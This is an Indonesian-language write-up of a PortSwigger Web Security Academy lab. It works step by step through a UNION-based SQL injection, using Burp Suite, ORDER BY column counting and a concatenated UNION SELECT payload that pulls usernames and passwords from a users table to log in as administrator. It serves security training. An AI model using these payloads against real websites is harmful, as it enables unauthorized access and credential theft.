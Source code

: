 # SQL injection UNION attack, retrieving multiple values in a single column

## Link Resource

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

## Jawaban + Bukti

![sql](../../img/sqli-unioncolumn/done.png)

### Step-by-step

![sql](../../img/sqli-unioncolumn/soal.png)

1. pada lab ini kita diminta untuk:

- Menggunakan UNION-based SQL injection
- Menggabungkan (concatenate) nilai username dan password ke dalam satu kolom hasil query.
- Mendapatkan kredensial administrator.

![sql](../../img/sqli-unioncolumn/intercept.png)

2. kita dapat menggunakan burpsuite untuk melakukan intercept pada kategori gifts `GET /filter?category=Gifts`

![sql](../../img/sqli-unioncolumn/2.png)

3. kemudian kita dapat menentukan jumlah kolom dengan ORDER BY `/filter?category=Gifts'+ORDER+BY+2--` sesuai dengan gambar diatas yang mana jika tidak error berarti jumlah kolom minimal 2 kolom.

![sql](../../img/sqli-unioncolumn/3.png)

4. lalu Tes UNION SELECT valid `/filter?category=Gifts'+UNION+SELECT+NULL,NULL--`

![sql](../../img/sqli-unioncolumn/4.png)

5. gabungkan username dan password `/filter?category=Gifts'+UNION+SELECT+NULL,username||':password is:'||password+FROM+users--` Karena kita diminta menampilkan dua nilai dalam satu kolom, kita gunakan concatenation operator (||) di Oracle (atau CONCAT() di MySQL).

![sql](../../img/sqli-unioncolumn/login.png)

6. kemudian dapat respon sebagiamana gambar diatas dan tinggal masukkan ke login sesuai dengan username dan password nya.

![sql](../../img/sqli-unioncolumn/done.png)

### Catatan

-
